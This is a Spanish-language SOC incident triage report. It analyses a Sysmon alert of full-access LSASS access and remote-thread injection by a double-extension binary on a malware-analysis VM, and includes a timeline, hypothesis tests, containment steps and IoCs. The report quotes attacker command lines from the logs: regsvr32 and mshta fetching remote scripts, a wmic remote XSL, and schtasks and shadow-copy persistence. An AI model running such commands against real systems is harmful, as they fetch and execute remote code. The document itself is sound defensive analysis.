



**Clasificación: verdadero positivo · Severidad: Alta · Disposición: escalado a L2**

| Campo              | Valor                                                                                    |
| ------------------ | ---------------------------------------------------------------------------------------- |
| Caso               | SOC-L1-2026-001                                                                          |
| Técnico            | Maximiliano Barcia                                                                       |
| Alerta analizada   | Regla `100101` — *Sysmon ID 10: Intento de acceso a proceso / Dump de memoria detectado* |
| Nivel de la regla  | 10 (alto)                                                                                |
| Fuente             | Wazuh 4.14.3 — índice `wazuh-alerts-*`, agente `000` (relay Sysmon)                      |
| Host afectado      | `IEWIN7` (Windows 7, máquina virtual de análisis de malware)                             |
| Hora del evento    | **2019-04-30 12:43:43.784 UTC**                                                          |
| Hora de ingesta    | 2026-09-01 13:35:59 UTC                                                                  |
| Analista           | L1                                                                                       |
| Fecha del análisis | 2026-11-16                                                                               |
| Disposición        | `TP-CONFIRMADO` → escalado a L2                                                          |

---

## 1. Resumen ejecutivo

Una alerta de nivel 10 reportó que el ejecutable `\\VBOXSVR\HTools\voice_mail.msg.exe` accedió a `lsass.exe`, el proceso que almacena credenciales en Windows. La investigación confirmó que el evento es real y malicioso: en el mismo milisegundo, el mismo proceso abrió los siete procesos críticos del sistema con permiso total y creó dos hilos remotos dentro de `lsass`, que es el mecanismo propio de un volcado de credenciales. El binario presentaba doble extensión (`.msg`, de correo de Outlook, pero ejecutable) y se ejecutaba desde una carpeta compartida del hipervisor, no desde el disco del equipo.

No fue posible confirmar si el volcado se completó ni si los datos salieron del equipo: no existen eventos de red ni de escritura asociados al proceso.

**Disposición:** `TP-CONFIRMADO`, severidad **Alta**, escalado a L2 con cuatro pedidos concretos. La misma regla generó en el mismo host otras nueve alertas de naturaleza distinta, lo que fundamenta una recomendación de detección en la sección 8.

---

## 2. La alerta

### 2.1 Evento crudo

Extracto del documento almacenado en el índice:

```json
{
  "rule": { "id": "100101", "level": 10, "groups": ["windows","sysmon","credential_access"],
            "mitre": { "id": ["T1003","T1055"] } },
  "agent": { "id": "000", "name": "wazuh.manager" },
  "data": { "Event": {
    "System": { "Channel": "Microsoft-Windows-Sysmon/Operational",
                "EventID": { "#text": "10" },
                "Computer": "IEWIN7",
                "EventRecordID": "9065",
                "TimeCreated": { "@SystemTime": "2026-09-01T13:35:59.554733Z" } },
    "EventData": { "Data": [
      { "@Name": "UtcTime",         "#text": "2019-04-30 12:43:43.784" },
      { "@Name": "SourceImage",     "#text": "\\\\VBOXSVR\\HTools\\voice_mail.msg.exe" },
      { "@Name": "SourceProcessId", "#text": "1532" },
      { "@Name": "TargetImage",     "#text": "C:\\Windows\\system32\\lsass.exe" },
      { "@Name": "TargetProcessId", "#text": "492" },
      { "@Name": "GrantedAccess",   "#text": "0x001f1fff" },
      { "@Name": "CallTrace",
        "#text": "C:\\Windows\\SYSTEM32\\ntdll.dll+4595c|C:\\Windows\\system32\\KERNELBASE.dll+8185|UNKNOWN(01B51606)|UNKNOWN(01B51F41)|UNKNOWN(01B51515)|UNKNOWN(014A7486)|UNKNOWN(014A73A0)|UNKNOWN(014A78A3)|C:\\Windows\\system32\\kernel32.dll+4ef8c|C:\\Windows\\SYSTEM32\\ntdll.dll+6367a|C:\\Windows\\SYSTEM32\\ntdll.dll+6364d" }
    ] }
  } }
}
```



*Cortesía del propio SIEM: sobre la muestra de 500 registros que analiza Discover, el nivel 10 representa el 0,6 % del total. La alerta que se investiga no destaca por volumen, sino por rareza.*

La vista de resultados con las diez alertas de la regla `100101`:



*Filtros `rule.level: 10` y `rule.id: 100101`: diez resultados, todos con fecha de ingesta 1 de septiembre de 2026. La vista no distingue matices: los diez eventos valen lo mismo para el SIEM.*

### 2.2 Definición real de la regla

Copiada del manager, archivo `/var/ossec/etc/rules/local_rules.xml`:

```xml
<rule id="100101" level="10">
  <if_sid>100100</if_sid>
  <field name="Event.System.EventID.#text">^10$</field>
  <mitre>
    <id>T1003</id>
    <id>T1055</id>
  </mitre>
  <description>Sysmon ID 10: Intento de acceso a proceso / Dump de memoria detectado</description>
</rule>
```

**Dato clave para el análisis:** la regla no filtra por proceso destino ni por permisos. Dispara con cualquier evento Sysmon ID 10. Eso explica por qué en el mismo host la misma regla marcó también `notepad → rundll32` (sección 5) y condiciona la evaluación de falso positivo.

---

> **Cuidado con el rango de fechas.** El evento ocurrió el 30 de abril de 2019, pero el SIEM lo recibió el 1 de septiembre de 2026. El dashboard filtra por `timestamp` de ingesta: buscar en 2019 devuelve cero resultados y hace pensar que la alerta no existe.
{: .prompt-warning }

## 3. Metodología y alcance de los datos

| Aspecto | Definición |
|---|---|
| Objetivo | Determinar si la alerta es un falso positivo (`FP`) o un verdadero positivo (`TP`) |
| Método | Reconstrucción del evento: proceso origen → proceso destino → permisos → acciones asociadas → contexto del host |
| Criterio de correlación | Mismo `Computer`, misma ventana temporal y mismo `SourceProcessId` |
| Hora utilizada | `data.Event.EventData.Data` → `UtcTime` (hora del evento en la máquina), no `timestamp` (ingesta) |
| Índices consultados | `wazuh-alerts-*` (ocho índices diarios) |
| Índices no disponibles | `wazuh-archives-*` no existe en este despliegue |
| Consecuencia | No hay eventos crudos que no hayan generado alerta. Atenuante: la regla `100100` (nivel 3) alerta todo evento Sysmon recibido, de modo que el índice contiene lo que el agente recibió |
| Limitación | La recolección no es continua: son ocho días sueltos, no una serie temporal |

**Control de calidad de este informe.** Antes de publicarlo se contrastó cada afirmación contra el índice con un script de verificación: se extrajeron los 119 documentos de `IEWIN7`; los 22 indicadores de la sección 9.1 se buscaron uno por uno en ese conjunto (22 de 22 con respaldo en los datos, ninguno inferido); el bloque JSON de la sección 2.1 se validó y se comparó campo por campo con el documento original; y todas las tablas se revisaron para que cada fila tenga el número de columnas de su cabecera. Cuatro datos se corrigieron durante ese control y se listan en la sección 7.1.

---

## 4. Investigación paso a paso

Cada paso registra qué se buscó, por qué, dónde y con qué consulta.

### Paso 1 — Confirmar la hora real del evento

- **Por qué:** la alerta muestra `TimeCreated` 2026-09-01, que es la hora de ingesta. Usar esa fecha desplaza la línea temporal siete años.
- **Dónde:** campo `data.Event.EventData.Data` → `UtcTime`.
- **Consulta:** apertura del documento completo de la alerta en Discover.
- **Resultado:** `2019-04-30 12:43:43.784`; ingesta `2026-09-01 13:35:59`.
- **Lectura:** el evento ocurrió en 2019 y se recolectó en 2026. Todo el análisis se realiza sobre 2019.

### Paso 2 — Identificar el proceso origen

- **Por qué:** el veredicto depende de quién solicita el acceso, no solo del acceso.
- **Dónde:** `SourceImage`, `SourceProcessId`.
- **Consulta:** lectura de los campos del documento.
- **Resultado:** `\\VBOXSVR\HTools\voice_mail.msg.exe`, PID 1532.
- **Lectura:** dos señales en un mismo campo. La ruta UNC `\\VBOXSVR\` indica que el binario se ejecuta desde una carpeta compartida del hipervisor (VirtualBox) y no desde el disco del equipo. La doble extensión `.msg.exe` lo hace pasar por un archivo de correo de Outlook.

### Paso 3 — Aislar el milisegundo completo

- **Por qué:** un acceso a `lsass` puede ser inocente si es aislado; si forma parte de un barrido, no lo es.
- **Dónde:** `data.Event.System.Computer` y `UtcTime`.
- **Consulta:** `data.Event.System.Computer: "IEWIN7"`, ordenado por `UtcTime`.
- **Resultado:** nueve eventos en el mismo milisegundo, todos con origen PID 1532:

| EventRecordID | EventID | Proceso destino                        |
| ------------- | ------- | -------------------------------------- |
| 9058          | 10      | `smss.exe` (264)                       |
| 9059          | 10      | `csrss.exe` (336)                      |
| 9061          | 10      | `csrss.exe` (384)                      |
| 9062          | 10      | `wininit.exe` (392)                    |
| 9063          | 10      | `winlogon.exe` (440)                   |
| 9064          | 10      | `services.exe` (468)                   |
| **9065**      | 10      | **`lsass.exe` (492)**                  |
| 9060          | **8**   | **`lsass.exe`** — `CreateRemoteThread` |
| 9066          | **8**   | **`lsass.exe`** — `CreateRemoteThread` |

- **Lectura:** no es un acceso suelto. Es un barrido de los siete procesos críticos más la inyección de dos hilos en `lsass`, todo en el mismo instante. Ningún proceso legítimo se comporta así.

### Paso 4 — Decodificar el permiso solicitado

- **Por qué:** el valor hexadecimal no dice nada por sí solo, y es el dato que distingue consultar un proceso de leer su memoria.
- **Dónde:** `GrantedAccess`.
- **Consulta:** descomposición del valor según los derechos de acceso a proceso de Windows.
- **Resultado:** `0x001f1fff`.

Descomposición bit a bit:

| Bit | Constante | Efecto |
|---|---|---|
| `0x0001` | PROCESS_TERMINATE | terminar el proceso |
| `0x0008` | PROCESS_VM_OPERATION | operar sobre su memoria |
| `0x0010` | **PROCESS_VM_READ** | **leer su memoria** |
| `0x0020` | PROCESS_VM_WRITE | escribir en su memoria |
| `0x0040` | PROCESS_DUP_HANDLE | duplicar handles |
| `0x0400` | PROCESS_QUERY_INFORMATION | consultar información |
| `0x0800` | PROCESS_SUSPEND_RESUME | suspender o reanudar |

**Comparación de los tres valores que se confunden habitualmente:**

| Valor | Nombre | Composición | Cuándo aparece |
|---|---|---|---|
| `0x001f0fff` | `PROCESS_ALL_ACCESS` pre-Vista | `STANDARD_RIGHTS_REQUIRED` + `SYNCHRONIZE` + `0x0FFF` | Windows 2000/XP; es el valor que arrastran muchas herramientas de volcado |
| **`0x001f1fff`** | **ALL_ACCESS efectivo** | `STANDARD_RIGHTS_REQUIRED` + `SYNCHRONIZE` + `0x1FFF` (todos los derechos definidos para un proceso, incluido `PROCESS_QUERY_LIMITED_INFORMATION`) | Es el valor observado en volcados de credenciales y el del evento analizado |
| `0x001fffff` | `PROCESS_ALL_ACCESS` literal (Vista/7+) | `STANDARD_RIGHTS_REQUIRED` + `SYNCHRONIZE` + `0xFFFF` | Constante oficial; los tres bits extra (`0x2000`, `0x4000`, `0x8000`) no están definidos para procesos y Windows los ignora |

**Lectura:** los tres valores otorgan, en la práctica, control total sobre el proceso destino. `0x001f1fff` incluye `VM_READ`, que es el derecho necesario para leer la memoria de `lsass` y extraer hashes. La diferencia entre las tres cifras es de compatibilidad y de bits reservados, no de capacidad.

**Dato observado en este mismo host:** los diez eventos `EventID 10` de `IEWIN7` se reparten entre los dos valores efectivos, sin relación con su gravedad. Ocho usan `0x001f1fff` (los siete de `voice_mail` y el del origen ilegible) y dos usan el literal `0x001fffff` (`notepad → rundll32` e `iexplore → cmd`). Esto confirma que la máscara de permisos, por sí sola, **no** distingue una acción benigna de una maliciosa: el discriminante es el origen, el destino y la creación de hilos remotos.

### Paso 5 — Buscar el nacimiento del proceso

- **Por qué:** el usuario y el proceso padre son los datos que permiten decidir si el binario era legítimo.
- **Dónde:** `EventID 1` (creación de proceso) con `Image` igual a `voice_mail`.
- **Consulta:** `data.Event.System.Computer: "IEWIN7" and data.Event.EventData.Data: "voice_mail"`.
- **Resultado:** cero eventos de creación de proceso para ese binario. Además, el PID 1532 aparece **únicamente** en los nueve eventos de ese milisegundo: no vuelve a ejecutar nada ni es destino de ningún otro evento en toda la recolección.
- **Lectura:** el `EventID 10` no incluye el usuario y, sin el `EventID 1`, no es posible determinar con qué cuenta corrió. Queda como pendiente y no se completa por inferencia. La ausencia es coherente con una recolección que no cubrió el arranque de la muestra.

### Paso 6 — Buscar acciones posteriores

- **Por qué:** el acceso es la antesala; la exfiltración se prueba con red o con archivos escritos.
- **Dónde:** `EventID 3` (conexión de red) y `EventID 11` (archivo creado) en la ventana del evento.
- **Consulta:** `data.Event.System.Computer: "IEWIN7" and data.Event.EventData.Data: "1532"`.
- **Resultado:** ninguna conexión de red ni escritura de archivo atribuible al PID 1532 en ese instante. El siguiente evento del host ocurre diez horas después (instalación de un MSI).
- **Lectura:** no hay evidencia de exfiltración. Tampoco de lo contrario: si el volcado se produjo en memoria sin salida por red, el registro no lo muestra.

### Paso 7 — Revisar todas las alertas de la misma regla

- **Por qué:** una alerta aislada se interpreta distinto si la regla está marcando hechos triviales.
- **Dónde:** `rule.id` en todo el índice.
- **Consulta:** `rule.id: 100101`.
- **Resultado:** diez alertas que corresponden a cuatro hechos distintos:

| Grupo | Alertas | Hecho | Destino | Origen |
|---|---|---|---|---|
| **A** | 7 | acceso múltiple e inyección | smss, csrss ×2, wininit, winlogon, services, **lsass** | `voice_mail.msg.exe` |
| **B** | 2 | acceso a una aplicación de escritorio | 8342: origen ilegible (PID 3092) → `notepad.exe`; 8353: `notepad.exe` (1632) → `rundll32.exe` (2328) | PID 3092 / `notepad.exe` |
| **C** | 1 | navegador lanzando una shell | 840: `cmd.exe` | `iexplore.exe` |
| **D** | — | el resto del host no genera nivel 10 | — | — |

- **Lectura:** la regla no distingue. Las del grupo B **no son benignas**: `notepad` es el proceso anfitrión de una inyección de PowerShell y después abre `rundll32` con conexión al mismo destino C2 de la intrusión. La de C también es actividad del ataque. Y las de A son el hallazgo de credenciales. La regla emite un solo nivel 10 para hechos de gravedad muy distinta: clasificar «la alerta 100101» en bloque sería un error de método.

### Paso 8 — Contexto del host

- **Por qué:** un acceso a `lsass` en un equipo con dos meses de intrusión significa algo distinto que en un equipo limpio.
- **Dónde:** todos los eventos del host.
- **Consulta:** `data.Event.System.Computer: "IEWIN7"` (119 eventos, 8 tipos de EventID).
- **Resultado**, ordenado por hora del evento:

| Fecha (UTC)      | Actividad observada                                                                 |
| ---------------- | ----------------------------------------------------------------------------------- |
| 2019-04-30 12:43 | El evento analizado: acceso total e inyección en `lsass`                            |
| 2019-04-30 22:48 | `VSSVC.exe` arranca y `msiexec` ejecuta `C:\Windows\Installer\MSI4FFD.tmp` → `cmd` → `whoami` |
| 2019-05-12 13:30 | `winpwnage.py -u execute -i 9 -p cmd.exe` y sucesivos `rundll32`, `pcalua` y `mshta` (LOLBins) |
| 2019-05-12 18:35 | `regsvr32 /u /s /i:http://pastebin.com/raw/H4A4iDTA scrobj.dll` (scriptlet remoto) |
| 2019-05-18 17:50 | `winpm.exe //e:{...} winpm_update.js` y `regsvr32` **lanzado por `svchost.exe`** cargando `calc.sct` desde GitHub (persistencia) |
| 2019-05-21 15:32 | `rundll32 javascript:… RunHTMLApplication` → `mshta https://hotelesms.com/talsk.txt` → `schtasks /create /sc MINUTE /TN MSOFFICE_` |
| 2019-05-22 04:02 | `iexplore.exe` → `cmd.exe` (grupo C) |
| 2019-05-23 16:49 | `wmic process list /format:"https://a.uguu.se/...test.xsl"` con conexión a `45.76.12.27:443` |
| 2019-05-23 17:26 | `\\vboxsrv\HTools\msxsl.exe` sobre `test.dat` (misma carpeta compartida) |
| 2019-05-27 15:12 | `cmd` **hijo de `notepad.exe`** ejecutando como `NT AUTHORITY\SYSTEM`: `vssadmin List Shadows`, `wmic shadowcopy call create` y ejecución desde la copia de sombra |
| 2019-05-27 15:12 | `schtasks /create /sc minute /tn "eyNQLDvUSuvVPg"` apuntando a la copia de sombra (persistencia) |
| 2019-05-28 02:13 | `vshadow.exe -nw -exec=osk.exe` → `osk.exe` hijo de `Utilman.exe` (puerta trasera) |
| 2019-06-15 07:13 | `mshta` sobre `update.hta` desde la caché de Internet Explorer; a las 07:22 `wscript updatevbs.vbs` → `10.0.2.18:4443` (segunda oleada) |
| 2019-07-03 20:39 | `powershell.exe` (PID 3092) inyecta hilos en `notepad.exe`; `notepad` → `rundll32` → `10.0.2.18:8181` |

- **Lectura:** el acceso a `lsass` es el primer paso de una cadena sostenida durante dos meses en el mismo equipo, con binarios que ingresan siempre por `\\VBOXSVR\HTools`. No es un hecho aislado.

### Paso 9 — Verificar el campo ilegible

- **Por qué:** en el grupo B el campo `SourceImage` aparece como `㄀`. Copiar ese valor en un informe implica publicar un artefacto de codificación como si fuera un nombre de proceso.
- **Dónde:** `SourceImage` del `EventRecordID` 8342, su `SourceProcessId`, su `CallTrace` y los `EventID 8` del mismo segundo.
- **Consulta:** `data.Event.System.Computer: "IEWIN7" and data.Event.EventData.Data: "notepad"`.
- **Resultado:** el campo está corrupto por un problema de codificación. Pero el `EventRecordID` 8342 no queda huérfano: conserva su **PID de origen, 3092**.
- **Lectura:** el `EventID 8` del `EventRecordID` 8343 (mismo segundo) muestra `SourceImage = C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` con **`SourceProcessId` 3092**, el mismo PID del evento corrupto. Además, el `CallTrace` de 8342 contiene `mscorwks.dll` y, con más peso, `NativeImages_v2.0.50727_32\System.Management.Automation.ni.dll`, que es el ensamblado del motor de PowerShell. **El origen se identifica por coincidencia de PID y de marco de ejecución, no por suposición:** era `powershell.exe`. Lo que sigue siendo incalculable es el nombre que el campo debería haber mostrado.



*El documento expandido del `EventRecordID` 8342: `SourceImage` viene ilegible, pero `SourceProcessId` es 3092 y el `CallTrace` incluye `mscorwks.dll` y `System.Management.Automation.ni.dll`.*

---

## 5. Contraste de hipótesis: ¿FP o TP?

Un falso positivo no es un evento que parezca extraño: es una alerta en la que la regla se equivoca. Las hipótesis benignas se prueban una por una.

| # | Hipótesis de falso positivo | Qué debería observarse si fuera cierta | Qué se encontró | Resultado |
|---|---|---|---|---|
| H1 | Es una herramienta legítima de volcado (`procdump`, EDR, backup) | ruta en `C:\Windows\` o `Program Files`, binario firmado, proceso padre de administración | ruta UNC en una carpeta compartida del hipervisor, doble extensión `.msg.exe` | **descartada** |
| H2 | Es el sistema operativo accediendo a sus propios procesos | `SourceImage` perteneciente al sistema (`services.exe`, `svchost.exe`) | `SourceImage` es un binario de usuario, fuera del disco del equipo | **descartada** |
| H3 | El `GrantedAccess` alto es habitual y no es indicador por sí solo | que el mismo valor aparezca también en eventos benignos del host | el valor alto aparece en **10 de 10** eventos `EventID 10`, incluidos los de `notepad` | **confirmada en parte**: la máscara no discrimina; el discriminante es el destino y la inyección |
| H4 | Es el mismo patrón que las otras alertas de la regla | origen y destino de escritorio, sin creación de hilos | destino `lsass` y siete procesos críticos, más dos `CreateRemoteThread` | **descartada** |
| H5 | Es actividad de laboratorio esperada | documentación del entorno que lo justifique | el host es una VM de análisis de malware, lo que explica el contexto pero no convierte el evento en benigno | **no aplica como FP** |
| T1 | **Intento de volcado de credenciales** | acceso total a `lsass` desde un binario no confiable más inyección | exactamente eso, en el mismo milisegundo | **sostenida** |

**Análisis de la regla:** dispara con cualquier `EventID 10`. El acierto de esta alerta proviene de un diseño grueso, no de precisión. Eso no la convierte en falso positivo —la regla describió correctamente lo que vio—, pero la vuelve incapaz de priorizar: los diez eventos del host comparten la misma máscara `ALL_ACCESS` y la misma severidad, aunque su significado sea muy distinto. Un analista que ordene por `rule.level` no puede separar el acceso a `lsass` del acceso a `notepad`.

**Sobre las otras nueve alertas de la regla:** conviene no llamarlas «ruido». Los dos eventos del grupo B (8342 y 8353) ocurren el mismo día y muestran a `powershell.exe` inyectando hilos en `notepad.exe` y a `notepad` abriendo `rundll32.exe` con conexión posterior a `10.0.2.18:8181`. `notepad` aquí no es una aplicación ofimática en uso: es el proceso anfitrión de una inyección, el mismo rol que cumple `lsass` en el evento analizado. Con la evidencia disponible no se puede atribuir familia de malware, pero tampoco corresponde archivarlos como benignos.

**Conclusión:** `TP-CONFIRMADO`. La alerta no se equivoca; su descripción exagera, porque el evento prueba el acceso y no el volcado.

---

## 6. Veredicto y respuesta

| Campo | Valor |
|---|---|
| Disposición | **`TP-CONFIRMADO`** |
| Severidad | **Alta** |
| Justificación | Acceso con permiso total a `lsass` desde un binario con doble extensión ejecutado desde un recurso compartido, más dos inyecciones de hilo en el mismo milisegundo |
| MITRE verificado | `T1003` (OS Credential Dumping) como intento; `T1055` (Process Injection) como observado |
| Impacto real | Nulo en producción: el host es una VM de laboratorio y el evento proviene de una muestra en análisis |
| Estado | Escalado a L2 |

### 6.1 Acciones de contención inmediata (playbook L1)

| # | Acción | Objetivo | Prioridad | Responsable |
|---|---|---|---|---|
| 1 | Aislar `IEWIN7` de la red (desconectar el adaptador NAT en la VM o aplicar cuarentena de red) | Evitar propagación y comunicación con el C2 observado (`10.0.2.18`) | P1 | Analista L1 |
| 2 | Preservar la evidencia antes de tocar el equipo: snapshot de la VM y cálculo de SHA-256 de los binarios ejecutados | Mantener cadena de custodia | P1 | Analista L1 |
| 3 | Bloquear en el perímetro las IP y URL observadas (`45.76.12.27`, `10.0.2.18`, `pastebin.com/raw/H4A4iDTA`, `hotelesms.com`, `a.uguu.se`, `raw.githubusercontent.com/3gstudent`) | Cortar acceso a los recursos usados para descargar payloads | P1 | Redes |
| 4 | Resetear credenciales de todas las cuentas que iniciaron sesión en `IEWIN7` después de `2019-04-30 12:43` e invalidar sesiones activas | Neutralizar las credenciales potencialmente volcadas | P1 | Administración de sistemas |
| 5 | Revisar y eliminar la tarea programada `MSOFFICE_` y la tarea `eyNQLDvUSuvVPg`, y verificar el estado de `Utilman.exe` | Eliminar la persistencia observada | P2 | Administración de sistemas |

### 6.2 Escalado y pedidos a L2

1. Obtener el hash SHA-256 de `voice_mail.msg.exe` para atribución y comparación con inteligencia pública.
2. Revisar si existe `EventID 1` de ese proceso en la fuente original, fuera del índice del SIEM.
3. Enumerar las cuentas locales del host y verificar si hubo uso de credenciales después de `12:43`.
4. Confirmar si el host tiene conectividad real o únicamente NAT de laboratorio, y determinar el alcance de la comunicación con `10.0.2.18`.

---

## 7. Lo que no se pudo determinar

| Pregunta abierta | Motivo |
|---|---|
| Qué usuario ejecutó el binario | El `EventID 10` no incluye usuario y no existe `EventID 1` del proceso |
| Si el volcado se completó | No hay evento que muestre lectura efectiva ni destino de los datos |
| Si hubo exfiltración | Sin conexión de red atribuible al PID 1532 en la ventana analizada |
| Qué familia de malware es | Sin hash no existe atribución posible |
| Si hubo actividad previa al 30 de abril | La recolección comienza ese día; el silencio anterior no prueba ausencia |

### 7.1 Datos corregidos durante el control de calidad

| Dato | Valor inicial | Valor verificado | Cómo se detectó |
|---|---|---|---|
| Hora de ingesta del evento | `2026-09-01 13:38:13` | `2026-09-01 13:35:59` | lectura del `TimeCreated` del documento original |
| Origen del `EventRecordID` 8342 | «estimado por correlación del mismo segundo» | observado: `powershell.exe`, PID 3092 coincidente | comparación de PID entre eventos |
| Ubicación del MSI del 30 de abril | «desde `Temp`» | `C:\Windows\Installer\MSI4FFD.tmp` | campo `Image` del `EventID 1` |
| Calificación de las alertas de `notepad` | «ruido de herramienta» | inyección de PowerShell en `notepad` y conexión posterior al C2 | línea de tiempo del host |

Dejar asentada la errata es parte del método: un informe sin correcciones demuestra que se verificó, no que se acertó de memoria.

---

## 8. Recomendaciones de detección

| Problema | Mejora propuesta |
|---|---|
| La regla `100101` dispara con cualquier `EventID 10` | Añadir condiciones: `TargetImage` que contenga `lsass.exe`, `GrantedAccess` con `0x10` (VM_READ) y `SourceImage` fuera de `C:\Windows\` |
| La descripción afirma «dump detectado» | Reformular a «acceso de lectura total a LSASS (posible volcado)» |
| No existe alerta para ejecución desde recursos de red | Crear regla sobre `EventID 1` cuyo `Image` comience con `\\` |
| Siete alertas de nivel 10 por un mismo acto | Crear una regla de correlación por `SourceProcessId` en una ventana de un segundo que emita una sola alerta: «barrido de N procesos y M inyecciones» |

---

## 9. Indicadores de compromiso (IoCs) y mapeo MITRE ATT&CK

### 9.1 Indicadores de compromiso

| Tipo | Indicador | Contexto / proceso |
|---|---|---|
| Hash SHA-256 | No disponible | Pendiente: solicitado a L2 (sección 6.2) |
| Archivo (ejecutable) | `\\VBOXSVR\HTools\voice_mail.msg.exe` | Binario que realiza el acceso a `lsass`; doble extensión |
| Archivo (ejecutable) | `\\vboxsrv\HTools\msxsl.exe` | Ejecución posterior desde la misma carpeta compartida |
| Archivo (ejecutable) | `C:\ProgramData\jabber.exe` | Ejecutado con `regsvr32` para cargar una DLL remota |
| Archivo (ejecutable) | `C:\ProgramData\winpm.exe` | Ejecutado con parámetros `//e:` sobre un script `.js` |
| Archivo (ejecutable) | `C:\ProgramData\vshadow.exe` | Creación de copias de sombra y ejecución desde ellas |
| Archivo (ejecutable) | `C:\Windows\Temp\svhost64.exe` | Ejecutado desde `HarddiskVolumeShadowCopy7` |
| Archivo (script) | `C:\ProgramData\calc.hta` | Script HTA lanzado con `mshta.exe` |
| Archivo (datos) | `C:\Users\IEUser\AppData\Roaming\Adobe\test.dat` | Entrada del procesador XSL de `msxsl.exe` |
| URL | `http://pastebin.com/raw/H4A4iDTA` | Scriptlet remoto cargado por `regsvr32` |
| URL | `https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct` | Scriptlet de persistencia |
| URL | `https://hotelesms.com/talsk.txt` | Carga remota ejecutada por `mshta` |
| URL | `https://a.uguu.se/x50IGVBRfr55_test.xsl` | Hoja XSL remota usada por `wmic` |
| IP:puerto | `45.76.12.27:443` | Conexión de `wmic.exe`; resuelto a `45-76-12-27.static.afterburst.com` |
| IP:puerto | `10.0.2.18:4443` | Comunicación de `mshta.exe` y `wscript.exe`; rango NAT de VirtualBox, sin resolución inversa |
| IP:puerto | `10.0.2.18:8181` | Comunicación de `rundll32.exe` |
| IP:puerto | `104.20.208.21:80` | Conexión de `regsvr32.exe` al cargar el scriptlet de pastebin |
| IP:puerto | `108.179.232.58:443` | Conexión de `mshta.exe`; resuelto a `gator4243.hostgator.com` |
| IP:puerto | `105.73.6.112:80` | Conexión de `mshta.exe`; resuelto a `aka112.inwitelecom.net` |
| IP:puerto | `105.73.6.105:80` | Conexión de `mshta.exe` y de `wmic.exe`; resuelto a `aka105.inwitelecom.net` |
| Tarea programada | `MSOFFICE_` (cada 60 minutos) y `eyNQLDvUSuvVPg` (cada minuto) | Persistencia observada |
| Ruta de sombra | `\Device\HarddiskVolumeShadowCopy7\Windows\Temp\svhost64.exe` | Ejecución mediante copia de sombra |

### 9.2 Mapeo MITRE ATT&CK

| Técnica | ID | Evidencia en el caso | Categoría |
|---|---|---|---|
| OS Credential Dumping: LSASS Memory | `T1003.001` | Acceso a `lsass.exe` con `0x001f1fff` y dos `CreateRemoteThread` sobre el mismo proceso | Observado (acceso) / estimado (volcado) |
| Masquerading: Double File Extension | `T1036.007` | `voice_mail.msg.exe`: extensión de correo de Outlook sobre un ejecutable | Observado |
| Process Injection: Portable Executable Injection | `T1055.002` | Dos `EventID 8` (`CreateRemoteThread`) originados en el PID 1532 y dirigidos a `lsass.exe` | Observado |
| Process Injection: Thread Execution Hijacking | `T1055.003` | No aplica: el caso corresponde a creación de hilo remoto (`T1055.002`), no al secuestro de un hilo existente | No observado |
| System Binary Proxy Execution: Mshta | `T1218.005` | `mshta.exe https://hotelesms.com/talsk.txt` y `mshta.exe C:\programdata\calc.hta` | Observado |
| System Binary Proxy Execution: Regsvr32 | `T1218.010` | `regsvr32 /u /s /i:http://pastebin.com/... scrobj.dll` | Observado |
